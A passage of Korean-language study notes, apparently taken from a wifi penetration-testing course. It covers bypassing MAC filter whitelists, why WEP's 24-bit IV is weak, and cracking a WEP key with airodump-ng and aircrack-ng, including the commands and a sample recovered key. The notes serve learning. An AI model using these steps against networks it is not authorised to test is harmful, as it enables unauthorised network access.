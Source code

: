 mac filtering 방법

1) blacklist : blacklist에 나열된 모든 네트워크 장치 차단 ⇒ mac 주소 바꾸면 우회 가능

2) whitelist : 리스트에 있는 특정 장치만 연결 가능

아래는 whitelist 우회하는 방법을 알려주겠다

1) `airodump-ng wlan0`

2) `airodump-ng —bssid [mac주소] —channel 6 wlan0`

### 20. Cracking Sections Introduction

지금까지는 네트워크 연결없이 진행했던 것이다. 연결 가로채서 보내는 모든것을 알 수 있었다.

이제는 암호화를 사용하는 경우 암호화 해제하고 wifi 네트워크에 액세스 하는 방법을 공부할거다. + WEP, WPA, WPA2 키를 얻는 것까지

### 21. Theory Behind Cracking WEP

RC4 의 알고리즘을 사용하여 데이터를 보낸다.

client → router 에게 보내는 패킷은 key로 암호화한다. 

라우터는 key가 있으니까 암호화된걸 해석할 수 있다. 

공중으로 전송되는 각 패킷은 새로운 고유 키를 생성 ⇒ 임의의 24비트 초기화 벡터 생성(실제 키에 대한 네트워크 비밀번호에 추가)

키 스트림을 생성한 다음 이 키 스트림을 사용하여 패킷을 암호화

패킷에 초기화 벡터(IV)를 추가하는 이유

- 패킷 해독하기 위해 키와 IV가 필요.
- 근데 이미 라우터는 키가 있음
- IV만 보내면됨

근데 알고리즘이 문제가 있다. IV는 24bit라서 보안 취약

### 22. WEP Cracking - Basic Case

WEP는 많은 수의 IV를 캡처하면 24bit라 알 수 있다.

1) `airodump-ng` 도구 사용하여 여러 packets/IVs를 캡처

2) IV들을 `aircrack-ng` 도구를 사용하여 분석하고 key를 크랙

방법

우린 많은 수의 패킷을 캡처해야하기 때문에 WEP 암호화를 사용하며 패킷을 많이 보내는 바쁜 네트워크를 골라

1) airodump-ng —bssid F8:23:00:00:00:00 —channel 1 —write basic_wep wlan0

2) 다른 터미널을 열어 `ls`로 cap 파일 확인

3) aircrack-ng basic_wep-01.cap

하면 Opening basic_wep-01.cap 

Read 32093 packets

라면서 마지막에 KEY FOUND! [ **41:73:32:33:70** ] (ASCII: As23p) 
